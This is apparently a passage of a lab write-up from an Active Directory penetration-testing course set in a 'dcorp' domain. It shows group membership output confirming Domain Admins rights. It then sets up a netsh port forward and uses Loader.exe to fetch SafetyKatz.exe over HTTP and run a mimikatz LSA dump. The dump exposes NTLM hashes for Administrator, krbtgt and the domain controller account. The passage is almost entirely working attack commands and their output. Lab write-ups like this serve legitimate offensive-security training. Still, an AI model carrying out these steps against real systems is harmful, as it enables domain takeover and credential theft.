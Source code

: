 ```
dcorp\Domain Admins👥                        Group            S-1-5-21-719815819-3726368948-3917688648-512 Mandatory group, Enabled by default, Enabled group✅
Authentication authority asserted identity   Well-known group S-1-18-1                                     Mandatory group, Enabled by default, Enabled group
dcorp\Denied RODC Password Replication Group Alias            S-1-5-21-719815819-3726368948-3917688648-572 Mandatory group, Enabled by default, Enabled group, Local Group
Mandatory Label\High Mandatory Level         Label            S-1-16-12288
```

`netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.22`

![HFS - SafetyKatz.exe](./assets/screenshots/learning_objective_08_hfs_safetykatz.png)

`C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "lsadump::evasive-lsa /patch" "exit"`:
```
[SNIP]

mimikatz(commandline) # lsadump::evasive-lsa /patch📌
Domain : dcorp / S-1-5-21-719815819-3726368948-3917688648

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : af0686cc0ca8f04df42210c9ac980760

[SNIP]

RID  : 000001f6 (502)
User : krbtgt👤
LM   :
NTLM : 4e9815869d2090ccfca61c1fe0d23986🔑

[SNIP]

RID  : 000003e8 (1000)
User : DCORP-DC$
LM   :
NTLM : 68d6c096c7cfee52a45d6207489526bc

[SNIP]
```